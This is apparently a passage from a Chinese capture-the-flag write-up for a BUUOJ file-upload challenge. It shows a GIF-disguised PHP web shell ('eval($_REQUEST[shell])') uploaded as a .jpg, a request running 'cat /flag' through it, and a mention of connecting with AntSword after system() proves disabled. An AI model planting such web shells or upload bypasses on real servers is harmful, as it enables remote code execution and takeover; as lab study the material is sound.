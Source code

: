 上传`js-php.jpg`，内容为:

```
GIF89a
<script language="php">eval($_REQUEST[shell]);</script>
```

![](images/mdmd2021-06-24-21-22-53.png)

访问`http://f789ae14-646f-4cef-a828-5955492ec550.node3.buuoj.cn/upload/32e06a4eba381f6f7c2f315d1332da0d/js-php.jpg`

http://f789ae14-646f-4cef-a828-5955492ec550.node3.buuoj.cn/upload/32e06a4eba381f6f7c2f315d1332da0d/js-php.jpg?shell=system(%27cat%20/flag%27);

![](images/mdmd2021-06-24-21-25-15.png)

可以看到这里system函数貌似被disable_function给禁用了。根据WP使用antsword可以直接进行连接
